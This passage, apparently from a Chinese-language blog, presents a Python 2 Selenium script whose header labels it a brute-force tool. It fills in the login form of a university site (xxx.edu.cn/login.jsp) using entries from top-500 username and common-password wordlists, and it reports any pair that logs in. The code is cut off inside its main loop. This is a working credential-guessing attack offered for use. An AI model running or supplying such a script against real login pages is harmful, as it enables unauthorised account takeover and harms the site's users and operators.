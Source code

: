 如果有些元素不能直接定位，就尝试用 autochain，如：

```bash
#coding:utf-8
#Author:LSA
#Descript:selenium for brute
#Data:201812



import time
import sys
from selenium import webdriver
from selenium.webdriver.common import action_chains, keys
import time

reload(sys) 
sys.setdefaultencoding('utf-8')



def BruteLogin(user,pwd):


        browser.get('http://xxx.edu.cn/login.jsp')
        browser.implicitly_wait(20)

        action = action_chains.ActionChains(browser)

        elem = browser.find_element_by_name("j_username")
        elem.send_keys(user)

        action.perform()

        elem=browser.find_element_by_name("j_password")
        elem.send_keys(pwd)

        action.perform()

        elem=browser.find_element_by_name("btn_submit")
        #print browser.current_window_handle
        #elem.click()

        action.send_keys("document.getElementsByName('btn_submit')[0].click()"+keys.Keys.ENTER)
        action.perform()

        time.sleep(1)
        if '当前用户' in browser.page_source:

            print 'Login Success:' + user + '|' + pwd
            sys.exit()
        else:
            print 'LoginFaild!'


browser = webdriver.Chrome()


def main():

    with open('usernameTop500.txt','r') as fuser:
            for user in fuser.readlines():
                    u = user.strip()
                    with open('topwdglobal.txt','r') as fpwd:
```